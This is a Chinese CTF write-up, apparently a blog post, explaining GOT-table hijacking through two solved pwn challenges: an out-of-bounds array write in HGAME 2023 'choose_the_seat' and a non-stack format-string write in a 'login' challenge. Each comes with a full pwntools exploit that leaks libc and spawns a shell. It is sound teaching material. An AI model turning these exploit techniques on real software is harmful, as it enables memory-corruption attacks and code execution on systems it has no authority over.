



GOT劫持总结

- - -

# GOT劫持总结

其实修改got表大部分情况下都是作为解题过程的一环节，这里我简单总结这类题目的做法

## GOT劫持原理

.got.plt 相当于.plt的GOT全局偏移表，它存放的就是外部函数的入口地址。也就是说，如果我们将这个函数的地址改成另外一个函数的地址，当程序调用该函数时，实际上会调用到另外一个函数。

## 数组越界劫持GOT表

### HGAME 2023 week1 choose\_the\_seat

检查一下保护

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129210816-5c5f50da-8eb8-1.png)  
RELRO:Partial RELRO-->got表可修改  
ida  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231129210830-647c5146-8eb8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129210844-6cf2b086-8eb8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129210850-705819b4-8eb8-1.png)  
运行程序  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231129210857-748008bc-8eb8-1.png)  
可以看到输入负数也可以，确定有数组越界  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231129210904-78ba7e12-8eb8-1.png)  
可以看到.got.plt表离bss段的距离比较近，所以考虑用数组越界写来改变.got.plt表

seat的地址为0x4040A0  
exit的.got.plt表的地址为0x404040  
exit在seat的低地址处，正好用负数来覆写  
两者之差为96，96/16=6，所以用-6可以改变exit  
把exit改成\_start后可以实现程序的无限循环  
同时我们可以知道exit与read地址相差16  
read函数的后三位为fc0，后三位是不会变的  
所以写入\\xc0不改变read的地址  
然后就可以接收到read的真实地址  
one\_gadget libc-2.31.so  
收到后用one\_gadget搜索一下可用的shell  
然后写入-6把退出变成执行og就行了

exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=remote('node5.anna.nssctf.cn',28573)
p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('/lib/x86_64-linux-gnu/libc-2.31.so')

start=elf.sym["_start"]
ru('one.\n')
sl('-6')
ru("name\n")
s(p64(start))
#duan()
ru('one.\n')
sl('-7')
ru("name\n")
s('\xc0')
r(13)

read_addr=u64(r(6).ljust(8,b'\x00'))
libc_base=read_addr-libc.symbols['read']
leak('libc_base ',libc_base)

ogs=[0xe3afe,0xe3b01,0xe3b04]
og=libc_base+ogs[1]
ru('one.\n')
sl('-6')
ru("name\n")
s(p64(og))
itr()
```

## 非栈上格式化字符串劫持GOT表

### 青少年ctf login

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129210944-90a408ea-8eb8-1.png)  
这里也是可以修改got表  
ida  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231129210954-96a6acca-8eb8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129211002-9b786cca-8eb8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129211007-9e7d9ed6-8eb8-1.png)  
msg可以控制，所以可以直接修改got表去做这个题  
思路  
首先输入两个相同的数据去进入  
read(0, msg, 0x10uLL);  
然后就利用无线循环的格式化字符串去泄露地址  
这里我们去利用这个修改这个地址为puts的got表的地址

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129211024-a868049a-8eb8-1.png)  
然后先改个地址，把这个位置写上去

```plain
sla('start','%'+str(addr1)+'c%15$hn')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129211042-b3305558-8eb8-1.png)  
然后我们去找下面这个偏移，去修改成got表

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129211050-b7a80a18-8eb8-1.png)

```plain
sla('start','%'+str(0x4020)+'c%43$hn')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129211103-bfe41bd6-8eb8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129211109-c300d764-8eb8-1.png)  
然后就是先修改2个字节，再错位改一下got表地址

```plain
sla('start','%'+str(system1)+'c%18$hn')
sla('start','%'+str(0x4022)+'c%43$hn')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129211122-cb0da2f2-8eb8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129211126-cd950a6a-8eb8-1.png)  
然后再改一字节，就成功改完了

```plain
sla('start','%'+str(system2)+'c%18$hhn')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129211141-d683bb1c-8eb8-1.png)  
然后这个题目就解出来了  
exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc.so.6')

def duan():
    gdb.attach(p)
    pause()

ru('username:\n')
sl(p64(0x404020))
ru('password:\n')
sl(p64(0x404020))
sl('/bin/sh\x00')

ru('start')
sl('%15$p-%13$p')

ret=int(r(14),16)-0xc8
leak('ret ',ret)
ru('-')

libc_base=int(r(14),16)-0x24083
leak('libc_base ',libc_base)
system = libc_base + libc.sym['system'] 
system1 = system&0xffff
system2 = (system>>16)&0xff


addr1=ret&0xffff
leak('addr1 ',addr1)
leak('system ',system)
sla('start','%'+str(addr1)+'c%15$hn')
sla('start','%'+str(0x4020)+'c%43$hn')
sla('start','%'+str(system1)+'c%18$hn')
sla('start','%'+str(0x4022)+'c%43$hn')
#duan()
sla('start','%'+str(system2)+'c%18$hhn')
sla('start','exit')

itr()
```

## 总结

劫持GOT表不是一种独立的方法，要配合其他的漏洞进行利用，这里我配合着例题对这种利用方式进行了详细的解析，希望能够帮到正在入门的师傅们
